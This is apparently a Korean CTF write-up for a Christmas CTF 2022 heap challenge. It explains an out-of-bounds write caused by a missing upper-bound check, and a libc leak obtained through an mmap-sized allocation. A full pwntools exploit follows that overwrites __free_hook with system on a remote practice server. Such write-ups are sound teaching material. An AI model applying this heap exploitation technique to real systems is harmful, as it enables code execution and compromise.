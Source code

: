 또다른 기능 하나는 수정하는 기능인데 santa_came함수가 1을 반환해야 사용할 수 있다. 1을 반환하려면 24개의 메모가 꽉 채워져 있으면 된다.

![Untitled](../files/christmas%20ctf%202022%205793e210ad10417bab0c141efed21db1/Untitled%2011.png)

그리고 이 기능에서 입력받는 offset이 0보다 작은지만 검증해서 oob가 터지는걸 볼 수 있다. 메모가 할당된 청크의 주소도 그냥 주니까 매우 크게 할당해서 mmap으로 할당하게 하면 mmap된 주소랑 libc주소랑 offset이 일정하다는걸 이용해서 libc leak할 수 있고 oob로 aaw하면 끝난다.

```python
from pwn import *

#context.log_level = "debug"

sla = lambda x, y : r.sendlineafter(x, y)
sa = lambda x, y : r.sendafter(x, y)
rvu = lambda x : r.recvuntil(x)
rv = lambda x : r.recv(x)

#r = process(["./santa_coming_to_town"], env={"LD_PRELOAD":"./libc"})
r = remote("host1.dreamhack.games", 15291)

def wr(idx, bsize, data):
    sla(">> ", "1")
    sla(": ", str(idx))
    sla(": ", str(bsize))
    sa("~\n", data)

def re(idx):
    sla(">> ", "2")
    sla(": ", str(idx))

def sle(idx, offset, data):
    sla(">> ", "3")
    sla("it? : ", str(idx))
    sla("edit : ", str(offset))
    sa("to : ", data)

wr(1, 0x3000, b"/bin/sh\x00")
for i in range(2, 26):
    wr(i, 1, b"/bin/sh\x00")

re(1)

rvu("Pages : ")
libc_leak = int(rv(14), 16)
libc_base = libc_leak - 0x5e5010
free_hook = libc_base + 0x3ed8e8
system = libc_base + 0x4f420
log.info(hex(libc_base))

re(2)

rvu("Pages : ")
heap_leak = int(rv(14), 16)

sle(2, (free_hook - heap_leak)//0x10+1, p64(system)*2)
```